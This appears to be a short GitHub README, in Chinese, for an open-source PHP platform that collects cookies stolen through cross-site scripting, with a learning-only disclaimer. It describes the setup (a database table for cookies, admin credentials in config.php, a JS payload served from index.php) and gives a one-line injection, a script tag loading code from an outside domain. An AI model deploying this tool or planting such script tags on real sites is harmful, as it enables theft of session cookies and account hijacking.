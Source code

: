 # xss
php写的个人研究测试用的  xss cookie 攻击管理平台,开源出来

![image](https://raw.githubusercontent.com/keyus/xss/master/xss_demo.png)

<h1>仅用于学习交流，禁止用于非法行为，后果自付
</h1>
<p>
数据库里面只有一张表 tu_message 用于存储cookie,自行建行立数据库，导入表
</P>


<p>
config.php  配置后台登陆用户名与密码,与mysql数据库用户名，密码。
index.php   为xs返回的js原码,自行配置js跨站请求的域名
</p>


<h2>本地测试</h2>
<code>
&lt;script src="//xs.com"&gt;&lt;/script&gt;
</code>



